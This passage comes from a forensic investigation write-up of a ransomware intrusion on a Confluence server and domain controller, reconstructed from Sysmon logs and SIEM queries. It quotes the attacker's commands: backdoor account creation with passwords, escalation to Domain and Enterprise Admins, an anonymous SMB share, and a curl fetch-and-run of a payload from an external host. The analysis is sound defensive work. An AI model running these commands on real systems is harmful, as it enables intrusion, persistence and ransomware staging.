    `cmd.exe /Q /c NET1 USER NONAME SLEPOY_123 /DOMAIN /ADD 1> \127.0.0.1\ADMIN$__1790157438.01 2>&1` \
    \
    This command created a domain user account named `NONAME` provisioned with the password `SLEPOY_123`.\
     

    <figure><figcaption>
Remote execution log showing the backdoor user <code>NONAME</code> added to the Active Directory domain (Sysmon Event ID 1).
</figcaption></figure>
*   Privilege Escalation to Domain Admins (`09:57:37.808 UTC`):

    Eight seconds later, the adversary escalated the new account's privileges across the domain:\
    \
    `cmd.exe /Q /c NET1 GROUP "DOMAIN ADMINS" NONAME /DOMAIN /ADD 1> \127.0.0.1\ADMIN$__1790157438.01 2>&1` \
     

    <figure><figcaption>
Sysmon Event ID 1 capturing the elevation of <code>NONAME</code> to the <code>DOMAIN ADMINS</code> security group.
</figcaption></figure>
*   Forest-Wide Dominance via Enterprise Admins (`09:57:43.843 UTC`):

    Six seconds following the domain admin assignment, the attacker elevated the account to the highest administrative tier in the Active Directory forest:\
    \
    `cmd.exe /Q /c NET1 GROUP "ENTERPRISE ADMINS" NONAME /DOMAIN /ADD 1> \127.0.0.1\ADMIN$__1790157438.01 2>&1` \
     

    <figure><figcaption>
Execution of <code>NET1.exe</code> adding <code>NONAME</code> to the <code>ENTERPRISE ADMINS</code> group, securing complete domain forest control (Sysmon Event ID 1).
</figcaption></figure>

#### Investigating Network Share Configuration & Protocol Staging on `vulnsrv`

Having tracked and documented the adversary’s execution flow on the Domain Controller, I circled back to `vulnsrv` to investigate the unexpected network share command observed around `09:54 UTC`. My objective was to determine the rationale behind this action and verify whether the attacker had manipulated SMB configurations to facilitate multi-host data staging or payload delivery. To scrutinize these protocol modifications, I executed a dedicated SIEM query:

host.name: "vulnsrv" and event.code: "1" and (process.name: ("net.exe" or "net1.exe") or process.command\_line: (_Smb_ or _share_ or _ServerConfiguration_))

<figure><figcaption>
Comprehensive overview of Sysmon Event ID 1 logs capturing the 09:32 UTC account creation and 09:54 UTC SMB staging events.
</figcaption></figure>

Comprehensive overview of Sysmon Event ID 1 logs capturing the 09:32 account creation and 09:54 SMB staging events.

*   Forceful SMBv2 Protocol Activation (`09:54:28.267 UTC`):\
    Under the security context of the `noname` account, the adversary invoked PowerShell with execution policy evasion (`-exec Bypass`) to force-enable SMBv2 across the operating system:\
    \
    `powershell.exe -exec Bypass -C "Set-SmbServerConfiguration -EnableSMB2Protocol $true -Force"` \
     

    <figure><figcaption>
Sysmon Event ID 1 showing PowerShell bypassing execution policy to forcefully enable SMBv2.
</figcaption></figure>

*   Unrestricted Network Share Creation (`09:54:43.523`):

    Immediately following protocol activation, the attacker executed native `net.exe` (which spawned `net1.exe`) to configure an unauthenticated local share named `share` mapped to `C:\Users\noname\Desktop\Attacker\share` \
    \
    `net share "share"="C:\Users\noname\Desktop\Attacker\share" /grant:"ANONYMOUS LOGON",READ /grant:Everyone,READ /UNLIMITED /y`\
    \
    By granting unauthenticated read permissions to both `ANONYMOUS LOGON` and `Everyone` without session limits (`/UNLIMITED`), the attacker converted `vulnsrv` into an internal payload distribution hub.\
     

<figure><figcaption>
Execution of <code>net1.exe</code> creating the unauthenticated network share accessible to Everyone (Sysmon Event ID 1).
</figcaption></figure>

<figure><figcaption>
Execution of <code>net.exe</code> creating the unauthenticated network share accessible to Everyone (Sysmon Event ID 1).
</figcaption></figure>

#### Solving the Payload Delivery Mystery ( file-server & backup server)

This deliberate share configuration resolved a critical evidentiary gap in the lateral expansion timeline: how secondary staging artifacts and attack toolsets were transferred laterally across the environment.

By configuring this open SMB repository on `vulnsrv`, the adversary established a central staging repository from which other compromised internal systems could pull malicious payloads anonymously over SMB (port 445). Specifically, this explains the distribution mechanism for:

1. `DC.exe` & `processhacker`: Infiltrated across target servers to execute process manipulation and suppress defensive security agents.
2. `ELPACO-team.exe`: The deployment of the core ransomware encryption binary pushed toward both the `file-server` and the `backup server` for coordinated operational disruption.

The adversary leveraged this backdoor domain account (NONAME) to establish interactive RDP sessions into both the backup server and the file-server, allowing them to directly access this open SMB share (\vulnsrv\share), pull the staged tools, and execute them with administrative privileges.

#### The Precursor Discovery: Account Creation & Privilege Escalation (`09:32 UTC`)

While examining the timeline output of this network configuration query, an earlier cluster of events executed under the `SYSTEM` security context surfaced at `09:32:58 UTC`, roughly 22 minutes prior to the SMB modifications:

*   Backdoor User Creation (`09:32:58.329 UTC`):\
    The adversary leveraged `net.exe` and `net1.exe` to provision a local backdoor account named `noname` with password `Slepoy_123`:\
    \
    `net user noname Slepoy_123 /add /Passwordchg:Yes`\
     

    <figure><figcaption>
Sysmon Event ID 1 documenting the creation of backdoor account <code>noname</code> under the <code>SYSTEM</code> context.
</figcaption></figure>

    <figure><figcaption>
Sysmon Event ID 1 documenting the creation of backdoor account <code>noname</code> under the <code>SYSTEM</code> context.
</figcaption></figure>

*   Privilege Elevation to Local Administrators (`09:32:58.449 UTC`):

    Within milliseconds, the account was elevated to local administrative privileges:\
    \
    `net localgroup Administrators noname /add` \
     

    <figure><figcaption>
Process creation log capturing the immediate escalation of <code>noname</code> to the local <code>Administrators</code> group.
</figcaption></figure>

    <figure><figcaption>
Process creation log capturing the immediate escalation of <code>noname</code> to the local <code>Administrators</code> group.
</figcaption></figure>

With this, I have concluded the analysis and deconstruction of this temporal gap, extracting highly valuable insights and evidence that were instrumental in completing the full picture and guiding the remainder of the investigation, as they uncovered both the lateral movement trajectory and the staging of the network distribution point.

Now, I directly transition into an in-depth investigation of the initial access and persistence phase: determining how the adversary managed to install and execute AnyDesk on the server to establish an interactive session, as well as how they created the local backdoor account `noname` discovered in the telemetry, which was subsequently utilized to log in and conduct that session.

I will now begin investigating how AnyDesk was installed on `vulnsrv` and how an interactive session was established through it. To trace this, I will first examine file creation events to identify the exact moment the executable landed on the server and determine the target directory where it was written.

#### Unraveling the AnyDesk Intrusion Chain

To uncover how AnyDesk landed on `vulnsrv` and how the adversary established an interactive graphical session, I turned my attention to the host’s file creation telemetry (`event.code: 11`):

`host.name: "vulnsrv" and event.code: "11" and file.name: *AnyDesk*`&#x20;

<figure><figcaption>
The complete chain of file creation events capturing the staging, persistence, and interactive initialization of AnyDesk.
</figcaption></figure>

The query results unraveled a clear, multi-stage progression:

It all began at `09:32:29 UTC`. An executable with a randomly generated name—`HAHLGiDDb.exe`—was running out of the temporary folder belonging to the network service profile (`C:\Windows\SERVIC~1\NETWOR~1\AppData\Local\Temp\HAHLGiDDb.exe`) under the security context of `NETWORK SERVICE`. This process wrote `AnyDesk.exe` directly into the Atlassian Confluence installation directory (`C:\Program Files\Atlassian\Confluence\`). The execution path and service context strongly suggested that `HAHLGiDDb.exe` acted as an initial remote payload—likely delivered via an exploit against Confluence—used to establish an initial foothold and drop secondary tooling.

<figure><figcaption>
Initial staging of AnyDesk inside the Confluence directory, dropped by <code>HAHLGiDDb.exe</code> under <code>NETWORK SERVICE</code> .
</figcaption></figure>

Less than a minute later, a noticeable shift occurred: the security context transitioned from `NETWORK SERVICE` to full `SYSTEM` privileges. Operating with these elevated rights, the adversary leveraged the staged binary from the Confluence folder to cement long-term access:

System-Wide Binary Deployment (`09:33:07.350 UTC`): A copy was created in the global application data folder at `C:\ProgramData\anydesk\AnyDesk.exe`.

<figure><figcaption></figcaption></figure>

Survival via Startup Persistence (`09:33:07.653 UTC`): Milliseconds later, a shortcut file (`AnyDesk.lnk`) was planted directly into the public Windows startup directory (`C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\`), guaranteeing the remote access tool would launch automatically upon system boot.

<figure><figcaption>
AnyDesk establishing host persistence under the <code>SYSTEM</code> context via ProgramData and the StartUp folder.
</figcaption></figure>

With persistence secured and the remote access backdoor ready, the adversary returned at `09:36:42 UTC` to claim their prize. Telemetry captured `AnyDesk.exe` executing and creating roaming configuration files inside `C:\Users\noname\AppData\Roaming\AnyDesk`. Crucially, the process was running under the username `noname`—the exact backdoor administrative account created just minutes earlier. This artifact confirms that the adversary successfully established an interactive AnyDesk remote session, authenticated into the `noname` profile, and began active desktop-level operations on `vulnsrv`.

<figure><figcaption>
Interactive session initialization reflected by user profile artifacts created under the <code>noname</code> account.
</figcaption></figure>

#### Investigating the `HAHLGiDDb.exe` Payload & Initial C2 Telemetry

With the initial footprints spotted, I shifted my focus directly toward unraveling the mystery behind the suspicious binary `HAHLGiDDb.exe`, aiming to piece together how the adversary transitioned from a constrained `NETWORK SERVICE` account to holding the ultimate keys to the kingdom as `SYSTEM`.

To trace the lineage of this process and uncover every command executed by—or born from—this file, I began dissecting the system's process creation telemetry (`event.code: 1`) using the following query:

`host.name: "vulnsrv" and event.code: "1" and (process.name: "HAHLGiDDb.exe" or process.parent.name: "HAHLGiDDb.exe" or process.command_line: HAHLGiDDb)`

<figure><figcaption>
The process creation timeline capturing the execution of <code>HAHLGiDDb.exe</code> and the subsequent spawned <code>cmd.exe</code> process.
</figcaption></figure>

As I examined the timeline, the forensic story began to piece itself together in front of me. Exactly at `09:31:12.761 UTC`, an initial instance of `cmd.exe` was spawned via \
`cmd.exe /c "curl -sko %TEMP%\HAHLGiDDb.exe [http://10.10.10.10:8080/HAHLGiDDb.exe](http://10.10.10.10:8080/HAHLGiDDb.exe) & start /B %TEMP%\HAHLGiDDb.exe"`. Looking closely at the parent process metadata, I identified `tomcat9.exe` running the command line `"C:\Program Files\Atlassian\Confluence\bin\Tomcat9.exe" //RS//Confluence130925043317`. This direct relationship was the clear indicator I was looking for: the adversary had successfully achieved Remote Code Execution (RCE) by exploiting a vulnerability within the hosted Atlassian Confluence application.

Within fractions of a second, the chain progressed rapidly. At `09:31:12.887 UTC`, the built-in `curl.exe` binary fetched the suspicious executable `HAHLGiDDb.exe` directly from the adversary's staging server at `[http://10.10.10.10:8080/](http://10.10.10.10:8080/)`. Immediately following the download, at `09:31:13.021 UTC`, the payload was launched in the background under process ID `1424` directly out of `C:\Windows\ServiceProfiles\NetworkService\AppData\Local\Temp\HAHLGiDDb.exe`, carrying the identity of `NT AUTHORITY\NETWORK SERVICE`.

<figure><figcaption>
Granular details of the initial execution of <code>HAHLGiDDb.exe</code> (PID: 1424) under <code>NETWORK SERVICE</code> .
</figcaption></figure>

What caught my attention next was an alarming escalation that occurred roughly a minute later. At `09:32:38.870`, a new instance of `cmd.exe` (PID: `6444`) suddenly appeared on the system. Inspecting its security context revealed that it was executing under full `NT AUTHORITY\SYSTEM` privileges, and its direct parent process was none other than our suspicious binary, `HAHLGiDDb.exe`.

<figure><figcaption>
The privilege leap—<code>HAHLGiDDb.exe</code> spawning an elevated <code>cmd.exe</code> shell running under <code>SYSTEM</code> .
</figcaption></figure>

Seeing `HAHLGiDDb.exe` actively running in the background under `NETWORK SERVICE` made me pause and re-evaluate its actual operational role. Was this executable merely an automated, local helper dropped to stage files, or was it acting as an interactive reverse shell establishing an active Command and Control (C2) lifeline back to the adversary?

To test this hypothesis and uncover any outbound channels, I pivoted directly into Sysmon’s network connection telemetry (`event.code: 3`) to hunt for any network sockets tied to this process:

`host.name: "vulnsrv" and event.code: "3" and process.name: "HAHLGiDDb.exe"`

The results immediately confirmed my suspicions. At `09:31:13.307 UTC`—scarcely a third of a second after the process was launched—`HAHLGiDDb.exe` (PID: `1424`) initiated an outbound TCP connection from the server's local interface at `192.168.30.10:52737` straight out to the external IP `10.10.10.10`.

The results immediately confirmed my suspicions. At `09:31:13.307 UTC`—scarcely a third of a second after the process was launched—`HAHLGiDDb.exe` (PID: `1424`) initiated an outbound TCP connection from the server's local interface at `192.168.30.10:52737` straight out to the external IP `10.10.10.10`.

<figure><figcaption>
detailing the C2 callback to 10.10.10.10:12385 under the NETWORK SERVICE context.
</figcaption></figure>

